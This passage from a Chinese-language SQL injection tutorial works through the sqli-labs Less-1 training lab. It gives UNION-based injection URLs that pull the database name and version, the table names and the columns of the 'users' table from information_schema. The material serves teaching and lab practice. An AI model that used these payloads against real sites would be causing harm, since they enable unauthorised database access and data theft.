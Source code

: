 #### 3.1.4.5.**确定数据库名**

通过信息收集来判断数据库名，得知数据库名为：security。

URL:http://192.168.10.150/sqlilabs/Less-1/?id=-1' union select 1,database(),version()--+

![img](assets/tqDoWwBk6FiHbXd.jpg) 

#### 3.1.4.6.**确定数据库的表名**

由于版本>5.0，使用我们使用知识点中提到的方式进行查询。

URL：http://192.168.10.150/sqlilabs/Less-1/?id=-1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema="security"--+

![img](assets/9dTLRIFDXOwgAJV.jpg) 

#### 3.1.4.7.**确定数据库的列名**

URL:http://192.168.10.150/sqlilabs/Less-1/?id=-1' union select 1,group_concat(column_name),3 from information_schema.columns where table_name="users"--+

![img](assets/cYH3F7piRN82Umb.jpg) 
